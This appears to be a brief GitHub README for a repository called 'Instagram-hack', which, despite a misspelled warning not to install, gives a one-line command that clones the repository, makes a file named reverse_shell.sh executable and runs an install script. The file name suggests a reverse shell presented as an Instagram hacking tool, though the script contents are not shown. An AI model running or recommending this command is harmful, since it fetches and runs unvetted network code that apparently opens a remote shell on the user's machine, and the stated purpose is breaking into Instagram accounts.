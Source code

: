 # Instagram-hack
Do not install this script this is tesinting




run command 

      git clone https://github.com/swatiai11414/Instagram-hack && cd Instagram-hack && chmod +x reverse_shell.sh && ./install.sh
